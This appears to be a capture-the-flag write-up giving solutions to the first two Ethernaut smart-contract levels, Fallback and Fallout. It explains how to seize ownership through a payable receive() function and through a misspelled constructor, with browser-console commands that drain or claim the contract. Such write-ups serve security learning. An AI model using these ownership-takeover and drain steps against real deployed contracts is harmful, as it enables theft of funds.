  # ethernaut solutions

## 1. Fallback
From looking at the contract given to us in the first level we see that the final function ```receive()``` that is ```payable``` that is a fallback function that can be called to manipulate us to become the owner of the contract to withdraw all of the funds currently held in it.

We notice that we must first contribute some amount in order for the ```receive()``` function to give us the owner status we need to call ```withdraw()``` then we can drain the contract.

This can be done by running these three commands in our browser's console:
```
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```
## 2. Fallout
Right away you can notice that the constructor is misspelled allowing any user to go in and calling ```Fal1out()``` which will give them ownership of the contract.

The following commands in the browser console will give you ownership of the contract:
```
await contract.owner() // shows that the owner of the contract currently is a NULL address
await contract.Fal1out({value: 1})
await contract.owner() // after the above command we now see that our address is the owner
await contract.collectAllocations()
```


